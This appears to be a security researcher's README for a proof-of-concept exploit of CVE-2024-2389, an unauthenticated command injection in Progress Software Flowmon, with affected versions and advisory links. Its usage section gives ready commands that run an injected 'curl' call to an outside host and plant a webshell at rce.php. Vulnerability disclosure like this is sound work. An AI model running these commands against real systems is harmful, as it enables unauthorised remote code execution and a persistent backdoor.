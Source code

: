 # CVE-2024-2389: Progress Software Flowmon Unauthenticated Command Injection

## Information
**Description:** This exploits an unauthenticated command injection in the Progress Software Flowmon application.  
**Versions Affected:** Tested on v12.03.02  
**Version Fixed:** 12.3.5/11.1.14  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-2389  
**Vendor Advisory:** https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability  

## Proof-of-Concept Exploit
### Description
This exploit a command injection flaw in an unauthenticated PDF generator endpoint affecting PdfGenerator.php.  

### Usage/Exploitation
To run a blind command:  
`python3 CVE-2024-2389 --cmd 'curl a.server' TARGET`

To write a simple webshell:  
`python3 CVE-2024-2389 --web-shell TARGET`  
Then visit TARGET/rce.php  

### Screenshot
![poc_image](https://github.com/RhinoSecurityLabs/CVEs/assets/41924355/56e95c42-3541-4768-862d-7d272db6ee8f)
